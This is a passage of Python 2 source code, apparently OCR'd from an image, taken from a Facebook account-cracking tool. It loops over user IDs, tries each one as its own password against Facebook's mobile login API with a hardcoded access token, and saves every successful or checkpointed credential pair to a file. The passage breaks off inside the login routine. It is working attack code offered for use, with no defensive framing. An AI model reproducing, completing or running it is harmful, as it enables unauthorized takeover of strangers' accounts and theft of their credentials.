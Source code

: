     elif peak =='0':

        login()

    else:

        print '[!] Fill In Correctly'

        action()

    print 50* '\033[1;94m-'

    xxx = str(len(id))

    jalan ('\033[1;92m[+] Total ids number: '+xxx)

    jalan ('\033[1;92m[+] Code you choose: '+c)

    jalan ("\033[1;93m[+] Wait A While Start Cracking...")

    jalan ("\033[1;92m[+] To Stop Process Press Ctrl+z")

    print 50* '\033[1;97m-'

    def main(arg):

        global cpb,oks

        user = arg

        try:

            os.mkdir('save')

        except OSError:

            pass

        try:

            pass1 = user

            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

            q = json.load(data)

            if 'access_token' in q:

                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass1                                       

                okb = open('save/Checkpoint.txt', 'a')

                okb.write(k+c+user+pass1+'\n')

                okb.close()

                oks.append(c+user+pass1)

            else:

                if 'www.facebook.com' in q['error_msg']:

                    print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass1

